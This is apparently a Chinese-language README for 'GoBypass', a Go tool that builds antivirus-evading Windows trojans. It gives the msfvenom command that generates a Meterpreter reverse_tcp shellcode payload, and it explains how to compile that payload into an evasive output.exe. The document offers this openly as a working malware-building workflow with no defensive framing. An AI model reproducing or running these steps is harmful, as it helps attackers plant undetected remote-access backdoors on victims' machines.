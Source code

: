 # GoBypass

### 介绍

`Golang`免杀马生成工具（该工具仅针对`Windows`系统）

不懂二进制和免杀，只是搬运工，借鉴大佬的代码自己造轮子

[](/img/logo.png)

### 准备工作

在`kali`中使用`msfvenom`生成需要的`payload`（注意使用`-f c`参数）

示例：`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=ip lport=port -f c`

复制完整C语言格式的`shellcode`并写入当前目录的`shellcode.txt`

### 生成免杀马

注意：
1. 确保环境变量中有`go`否则无法编译
2. 如果报错请先执行`go env -w GO111MODULE=on`然后`go mod download`命令下载依赖
3. 如果下载依赖过慢配置镜像`go env -w GOPROXY=https://mirrors.aliyun.com/goproxy`

使用命令：`go run main.go`即可在当前目录生成免杀马`output.exe`